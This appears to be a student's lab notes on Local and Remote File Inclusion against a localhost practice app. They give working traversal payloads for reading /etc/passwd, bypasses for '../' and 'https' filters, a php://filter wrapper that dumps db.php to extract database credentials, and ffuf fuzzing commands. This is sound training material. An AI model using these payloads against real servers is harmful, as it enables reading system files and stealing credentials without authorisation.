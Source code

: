 
### Local FIle Inclusion(LFI) & Remote File Inclusion(RFI)

LFI : Include files that are already present on the target server

RFI : Allows an attacker to include malicious file from a external remote server, can lead to arbitary code executio 

LFI and RFI happen when an application takes a user input and using that path to a file without properly validating it

example : ?lang=ger
exploit :    ?lang=../../../../../etc/passwd


---

### LFI

Tells us to select recipe
After selecting, the url is

```url
http://localhost/labs/fi0x01.php?filename=chocolate_cake.txt
```

Since its a linux server 
Try 

```url
http://localhost/labs/fi0x01.php?filename=../../../../../../../../etc/passwd
```


![[lfi1.png]]

And we get the /etc/passwd data

We can also use intruder or ffuf with the wordlist
/usr/share/wordlists/wfuzz/Injections/Traversal.txt

```sh
fuf -r -c -w /usr/share/wordlists/wfuzz/Injections/Traversal.txt:FUZZ -u "http://localhost/labs/fi0x01.php?filename=FUZZ" 
```


---

### RFI

```url
http://localhost/labs/fi0x02.php?filename=files%2Fchocolate_cake.txt
```

%2F = /

Try 

```url
http://localhost/labs/fi0x02.php?filename=files%2F../../../../../../etc/passwd
```

Error message : **Warning**: file_get_contents(files/etc/passwd): failed to open stream: No such file or directory in **/var/www/html/labs/fi0x02.php** on line **12**

Since most of our path missing in error message, we can assume that '../'  is being filtered

Try

```url
http://localhost/labs/fi0x02.php?filename=files%2F..././..././..././..././..././etc/passwd
```

This works is server is filtering ou '../' so what happens is that it filters out which was an extra we used to trick it and what remains after filtering out is ../../../


![[lfi2.png]]


We can an LFI here

Now check for RFI 

```url
http://localhost/labs/fi0x02.php?filename=https://google.com
```

![[rfi.png]]


We also have an RFI

If https being filtered try : hthttpstps : splitting it up we get ht https tps , if there is no recursive filtering, we will get file inclusion

If there is recursive file inclusion try

htTps instead of https : do this if https being filtered out




From payloadsallthethings, we can also try wrapper 

```url
http://localhost/labs/fi0x02.php?filename=php://filter/convert.base64-encode/resource=..././db.php
```

Gives us base64 encoded output

Decoding it gives

![[lif3.png]]

So we can steal database credentials as well


---

### File Inclusion Challenge

Page content changes but no request in network tab nor does the page refresh, so maybe using an API.

```http
GET /labs/api/fetchRecipe.php?filename=chocolate_cake.txt
```

It is a REST api request

Try 

```http
GET /labs/api/fetchRecipe.php?filename=....//....//....//....//....//....//etc/passwd
```

![[lfichallenge.png]]

And we have LFI

```sh
ffuf -r -c -request api-req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

-fw : filter by number of words


---

